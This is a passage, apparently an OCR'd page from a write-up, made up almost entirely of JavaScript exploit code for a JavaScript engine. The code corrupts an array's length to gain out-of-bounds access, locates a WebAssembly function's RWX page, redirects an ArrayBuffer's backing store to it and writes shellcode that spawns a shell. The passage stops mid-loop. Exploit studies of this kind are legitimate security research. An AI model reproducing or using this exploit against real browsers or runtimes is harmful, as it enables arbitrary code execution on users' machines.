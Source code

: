 ```javascript
	return wasmInstance.exports.main;
}
wmain = getWMain();
```

### ArrayBuffer and Signature Object

```javascript
gOobArr = [2019.2019];
gAb = new ArrayBuffer(0x321);
gSig = {a:0xdead,b:0xbeef,c:wmain};
```

```javascript
assert(gOobArr.length === 0x1337,
	"failed to corrupt array size");
// now gOobArr have OOB access
// next, we find ArrayBuffer and sig
var backingPos, wmainAddr;
for (let i = 0; i < gOobArr.length-2; i++)
{
	if (d2u(gOobArr[i]) === 0x321)
	{// find ArrayBuffer
		backingPos = i + 1;
	}
	else if (d2u(gOobArr[i]) === 0xdead00000000 &&
		d2u(gOobArr[i+1]) === 0xbeef00000000)
	{// find sig object, and extract wmain address
		wmainAddr = d2u(gOobArr[i+2]) - 1;
	}
	if (backingPos !== undefined && wmainAddr !== undefined)
		break; // otherwise GC is triggered
}
assert(backingPos !== undefined, "failed to find ArrayBuffer");
assert(wmainAddr !== undefined, "failed to find sig array");
print("[*] index of backing field = " + hex(backingPos));
print("[*] address of wmain function = " + hex(wmainAddr));
const dataView = new DataView(gAb);

gOobArr[backingPos] = u2d(wmainAddr-0x300);
for (var i = 0; i < 0x300; i+=8)
{
	rwxAddr = d2u(dataView.getFloat64(i, true));
	if ((rwxAddr / 0x1000) % 0x10 !== 0 &&
		rwxAddr % 0x1000 === 0 &&
		rwxAddr < 0x7fffffffffffff)
		break;
}

assert(i !== 0x300, "failed to find RWX page!");

print("[*] RWX page = " + hex(rwxAddr));

gOobArr[backingPos] = u2d(rwxAddr);
// set backing field to rwx page

var shellcode = [
    0x99583b6a, 0x2fbb4852,
    0x6e69622f, 0x5368732f,
    0x57525f54, 0x050f5e54
];
for (var i = 0; i < shellcode.length; i++)
{
	dataView.setUint32(i * 4, shellcode[i], true);
```